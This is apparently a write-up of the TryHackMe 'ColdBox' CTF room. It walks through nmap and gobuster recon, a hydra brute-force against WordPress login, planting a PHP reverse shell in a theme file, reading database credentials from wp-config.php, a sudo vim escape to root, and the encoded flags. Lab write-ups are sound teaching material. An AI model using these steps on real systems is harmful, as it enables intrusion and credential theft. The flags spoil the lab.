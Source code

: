 # ColdBox

<div align="left">

<figure><img src="../.gitbook/assets/image (80).png" alt="" width="168"><figcaption><p><a href="https://tryhackme.com/room/colddboxeasy">https://tryhackme.com/room/colddboxeasy</a></p></figcaption></figure>

</div>

🔗 [ColdBox](https://tryhackme.com/room/colddboxeasy)

### Task 1 - Deploy the machine

🎯 Target IP: `10.10.100.105`

Create a directory for machine on the Desktop and a directory containing the scans with nmap.

### Task 2 - Reconnaissance

<pre class="language-bash"><code class="lang-bash">su
echo "10.10.100.105 coldbox.thm" >> /etc/hosts

mkdir thm/coldbox.thm
cd thm/coldbox.thm
mkdir {nmap,content,exploits,scripts}

# At the end of the room
# To clean up the last line from the /etc/hosts file
<strong>sed -i '$ d' /etc/hosts
</strong></code></pre>

I prefer to start recon by pinging the target, this allows us to check connectivity and get OS info.

```bash
ping -c 3 coldbox.thm
PING coldbox.thm (10.10.100.105) 56(84) bytes of data.
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=1 ttl=63 time=65.4 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=2 ttl=63 time=61.1 ms
64 bytes from coldbox.thm (10.10.100.105): icmp_seq=3 ttl=63 time=60.5 ms
```

Sending these three ICMP packets, we see that the Time To Live (TTL) is \~64 secs. this indicates that the target is a \*nix, while Windows systems usually have a TTL of 128 secs.

Of course, start to check information scanning open ports:

```bash
nmap --open -p0- -n -Pn -vvv --min-rate 5000 coldbox.thm -oG nmap/port_scan
```

```bash
PORT     STATE SERVICE REASON
80/tcp   open  http    syn-ack ttl 63
4512/tcp open  unknown syn-ack ttl 63
```

<table><thead><tr><th width="154.99999999999997">command</th><th>result</th></tr></thead><tbody><tr><td>sudo</td><td>run as root</td></tr><tr><td>sC</td><td>run default scripts</td></tr><tr><td>sV</td><td>enumerate versions</td></tr><tr><td>A</td><td>aggressive mode</td></tr><tr><td>T4</td><td>run a bit faster</td></tr><tr><td>oN</td><td>output to file with nmap formatting</td></tr></tbody></table>

It looks like there are 2 open ports on the machine: 80, 4512

Now, we need to search which services are running on open ports:

```bash
nmap -p80,4512 -n -Pn -vvv -sCV --min-rate 5000 coldbox.thm -oN nmap/open_port
```

```bash
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
4512/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDngxJmUFBAeIIIjZkorYEp5ImIX0SOOFtRVgperpxbcxDAosq1rJ6DhWxJyyGo3M+Fx2koAgzkE2d4f2DTGB8sY1NJP1sYOeNphh8c55Psw3Rq4xytY5u1abq6su2a1Dp15zE7kGuROaq2qFot8iGYBVLMMPFB/BRmwBk07zrn8nKPa3yotvuJpERZVKKiSQrLBW87nkPhPzNv5hdRUUFvImigYb4hXTyUveipQ/oji5rIxdHMNKiWwrVO864RekaVPdwnSIfEtVevj1XU/RmG4miIbsy2A7jRU034J8NEI7akDB+lZmdnOIFkfX+qcHKxsoahesXziWw9uBospyhB
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKNmVtaTpgUhzxZL3VKgWKq6TDNebAFSbQNy5QxllUb4Gg6URGSWnBOuIzfMAoJPWzOhbRHAHfGCqaAryf81+Z8=
|   256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE/fNq/6XnAxR13/jPT28jLWFlqxd+RKSbEgujEaCjEc
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Task 3 - User flag?

Then we can start to see website (port 80):

<figure><img src="../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

we can see that's a wordpress web site, then we can try to see page source for checking information disclosure.

<figure><img src="../.gitbook/assets/image (83).png" alt=""><figcaption></figcaption></figure>

but we don't find precious info.

Another good thing to do, is find hidden paths on website using gobuster

```
gobuster dir -u coldbox.thm -w /usr/share/wordlists/dirb/common.txt
```

<figure><img src="../.gitbook/assets/image (84).png" alt=""><figcaption></figcaption></figure>

Very good, we can start to check these web dir:

/hidden/

<figure><img src="../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

Very good, there're precious info about usernames: C0ldd, Hugo and Philip.

We can confirm it watching error message at login in a default login path for wordpress: /wp-admin/

<figure><img src="../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

Finally the's another good info

<figure><img src="../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

If we don't waste time, we can use wpscan to find user list, but we'll take it if we take results with our three users, then try to login with C0ldd/Hugo/Philip:password123 (what we've see in the hidden path).

Nothing to do, we need to use brute force attack.

Then, we save them in a file called users.txt, and run hydra with a password wordlist to take a brute force attack:

```bash
echo "C0ldd\nHugo\nPhilip" > users.txt
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt coldbox.thm -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'
```

<figure><img src="../.gitbook/assets/image (155).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
C0ldd:9876543210
{% endhint %}

Now we can use this credentials to log in wordpress and ssh.

<figure><img src="../.gitbook/assets/image (156).png" alt=""><figcaption></figcaption></figure>

Check user list, to see them and theirs role/permissions:

<figure><img src="../.gitbook/assets/image (157).png" alt=""><figcaption></figcaption></figure>

Very good, C0ldd is administrator.

Now, we need to access at machine using web shell, find it on our kali web-shells folder or use pentester monkey website:

<figure><img src="../.gitbook/assets/image (161).png" alt=""><figcaption></figcaption></figure>

We need to edit it using our credentials (LHOST and LPORT):

<div align="left">

<figure><img src="../.gitbook/assets/image (162).png" alt=""><figcaption></figcaption></figure>

</div>

and upload it on media library page:

<figure><img src="../.gitbook/assets/image (158).png" alt=""><figcaption></figcaption></figure>

But, trying to change extension, upload doesn't work.

<figure><img src="../.gitbook/assets/image (160).png" alt=""><figcaption></figcaption></figure>

Then, we can try to use wordpress themes or plugins how vector to inject our web-shell.

Starting with themes, we edit header.php page in the twentyfifteen theme using the same php web-shell:

<figure><img src="../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

Update file, run netcat listener on the same port '1234':

<div align="left">

<figure><img src="../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

</div>

Go to: [http://coldbox.thm/wp-content/themes/twentyfifteen/header.php](http://coldbox.thm/wp-content/themes/twentyfifteen/header.php)

<figure><img src="../.gitbook/assets/image (165).png" alt=""><figcaption></figcaption></figure>

We can upgrade this to a fully interactive shell by running:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

and retrieve credentials inside wp-config.php file.

```bash
cat /var/www/html/wp-config.php | grep "DB_USER"
#define('DB_USER', 'c0ldd');
cat /var/www/html/wp-config.php | grep "DB_PASSWORD"
#define('DB_PASSWORD', 'cybersecurity');
su c0ldd #inser psw and read flag.
```

we know credential for access how c0ldd user and read user.txt flag

<details>

<summary>🚩 Flag 1 (user.txt)</summary>

RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==

</details>

### Task 4 - Root flag?

We can do sudo -l command to discover user's permissions.

<figure><img src="../.gitbook/assets/image (166).png" alt=""><figcaption></figcaption></figure>

We see that c0ldd user has root permissions for these commands, we can use gtfobins to find them.

[https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/) using vim sudo command below, we obtain a root permission:

```bash
sudo vim -c ':!/bin/sh'
```

<figure><img src="../.gitbook/assets/image (167).png" alt=""><figcaption></figcaption></figure>

spawn /bin/sh to use shell:

<div align="left">

<figure><img src="../.gitbook/assets/image (169).png" alt=""><figcaption></figcaption></figure>

</div>

Well done! Root flag found!

<details>

<summary>🚩 Flag 2 (root.txt)</summary>

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

</details>
